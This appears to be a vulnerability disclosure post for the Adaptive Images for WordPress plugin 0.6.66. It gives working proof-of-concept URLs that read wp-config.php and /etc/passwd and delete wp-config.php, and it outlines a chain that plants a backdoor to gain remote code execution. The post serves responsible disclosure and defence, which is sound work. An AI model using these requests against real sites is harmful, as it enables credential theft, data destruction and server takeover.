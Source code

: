 ```yaml
---
layout: post
title:  "Adaptive images for Wordpress 0.6.66: LFI, arbitrary file deletion and RCE."
date:   2019-07-19 04:01:00 +0000
---
```


# LFI (Local file inclusion), Arbitrary file deletion and RCE in [Adaptive Images for WordPress](https://wordpress.org/plugins/adaptive-images/) plugin.

This plugin, developed by [Nevma](http://www.nevma.gr/) is used to serve images in Wordpress based on device resolution, allowing an on-the-fly resize.
It is useful to decrease the page load for mobile devices.

The analyzed version is **0.6.66** on a fresh WordPress installation 5.2.2.

Due to an exposed variable an unauthenticated attacker can exploit a vulnerability that can lead to a LFI (Local File Inclusion) and to Arbitrary File Deletion.

Sensible system and Wordpress file can be easily exfiltrated and the two vulnerabilities can be used to obtain RCE (Remote Command Execution).

## **INTRO**
**Adaptive Images for WordPress** serves images through a PHP script, `adaptive-images-script.php`.

All requests made to image assets that appear in specific folders (the plugin settings allow to change these folders) are redirected through this script that eventually manipulate the image before serving it.

At **line 877** the plugin settings are collected:

```php
  $settings = adaptive_images_script_get_settings();
```

This method at **line 62** checks if the `$_REQUEST['adaptive-images-settings']` is present and if not it overrides and composes it according the default configuration.

```php

    function adaptive_images_script_get_settings () {

        // Setup script settings.

        if ( ! isset( $_REQUEST['adaptive-images-settings'] ) ) {

    ...

    // Setup script settings and save the in request scope.

    $_REQUEST['adaptive-images-settings'] = array(
        'debug'          => $debug,
        'resolutions'    => $resolutions,
        'cache_dir'      => $cache_dir,
        'jpg_quality'    => $jpg_quality,
        'png8'           => $png8,
        'sharpen'        => $sharpen,
        'watch_cache'    => $watch_cache,
        'browser_cache'  => $browser_cache,
        'request_uri'    => $request_uri,
        'source_file'    => $source_file,
        'wp_content'     => $wp_content_dir,
        'client_width'   => $client_width,
        'hidpi'          => $hidpi,
        'pixel_density'  => $pixel_density,
        'resolution'     => $resolution
    );
```

At the end of the method the function simply return the `$_REQUEST['adaptive-images-settings']` variable.

```php
  return $_REQUEST['adaptive-images-settings'];
```

This logic allows any visitor to set and override the `$_REQUEST['adaptive-images-settings']` just passing it to the request.

**Having control on this variable allows an attacker to exploit two major vulnerabilities.**


## **LFI**

The parameter `$_REQUEST['adaptive-images-settings']['source_file']` allows an attacker to set in an arbitrary way the file requested that will be served from the script.

Even if it is not possible to manipulate the `Content-Type` header, the script will generate a malformed image that contains the requested file.

This vulnerability in combination with other server misconfiguration can lead to RCE (Remote Command Execution) using log poisoning technique, /proc/self/environ technique and others.



### **POC**

`http://wp-vulnerable/wp-content/uploads/2019/05/image.jpg?adaptive-images-settings[source_file]=../../../wp-config.php`

`http://wp-vulnerable/wp-content/uploads/2019/05/image.jpg?adaptive-images-settings[source_file]=/etc/passwd`

*The image used to trigger the vulnerability should exist.*

## **Arbitrary File Deletion**

The plugin contains a cache mechanism that allows the generated resized images to be saved and cached to prevent excessive resources usage.

As every cache mechanism a file should be deleted if the source is newer than the cache file.  
**This feature can be abused to delete an arbitrary file accessible from the Wordpress installation.**

On **line 977** is called the function that removes a stale cache image:

```php
    // Locate cached image.

    $cache_file = $settings['wp_content'] . '/' . $settings['cache_dir'] . '/' . $settings['resolution'] . $settings['request_uri'];



    // Check if cached image if stale and relete it if so.

    if ( file_exists( $cache_file ) ) {

        // Check if cached image is stale and delete it if so.

        if ( $settings['watch_cache'] ) {

            adaptive_images_delete_stale_cache_image( $settings['source_file'], $cache_file, $settings['resolution'] );

        }

    }
```

Every variable used in this code is controlled by the aforementioned `$_REQUEST['adaptive-images-settings']` variable.

The `adaptive_images_delete_stale_cache_image` function just checks if the `$cache_files` exists and if it is newer than the original one.

The only condition to successfully exploit this vulnerability is that the file that we pass as `$source_file` is newer than the file that
we pass as `$cache_file`.

```php
    function adaptive_images_delete_stale_cache_image ( $source_file, $cache_file, $resolution ) {

        if ( file_exists( $cache_file ) ) {

            // Check image file timestamp.

            if ( filemtime( $cache_file ) >= filemtime( $source_file ) ) {

                return $cache_file;

            }

            unlink( $cache_file );
        }

    }
```

### **POC**

Using relative paths we set as `$source_file` an image (or any other file) that exists in the website and as `$cache_file` (our target) the `wp-config.php`.  
In this way it is almost certain that the image is more recent than the target file.

Some other variables should be manipulated to pass some checks and build the correct path of the target file.

*This POC deletes the `wp-config.php`, test it carefully.*

`http://wp-vulnerable/wp-content/uploads/2019/07/image.jpeg?adaptive-images-settings[source_file]=../../../wp-content/uploads/2019/07/image.jpeg&adaptive-images-settings[resolution]=&resolution=16000&adaptive-images-settings[wp_content]=.&adaptive-images-settings[cache_dir]=../../..&adaptive-images-settings[request_uri]=wp-config.php&adaptive-images-settings[watch_cache]=1`


## **BONUS: LFI + Arbitrary file deletion = RCE**

Combining the previous two vulnerabilities an attacker can obtain a bold (and not really stealth) Remote Code Execution on the server.

This is the exploit process:

1. Dump the current wp-config.php
2. Delete the current wp-config.php
3. Install a fake WordPress alongside the real one (DB credentials are known, a random db_prefix should be chosen to not overwrite the current installation).
4. Log in the fake WordPress to patch a plugin or theme file to set up a backdoor
5. Use the backdoor to restore the previous wp-config.php and remove the fake WordPress installation from the database.

This process can be automated and executed in less than 1 minute.
During the process the website will not be reachable ([exploit](https://github.com)).

## **Time Line**

|Date | What |
|-----|------|
|2019/07/08|Vulnerability reported to plugin developer company using the email found in code. No response.|
|2019/07/11|Vulnerability reported directly to plugin developer.|
|2019/07/11|The vulnerability was verified by the plugin developer.|
|2019/07/11|A fix was released in version [0.6.7](https://wordpress.org/plugins/adaptive-images/).|
|2019/07/19|Public disclosure.|

Special thanks to Takis @ Nevma for his availability and for the quick release of the fix.
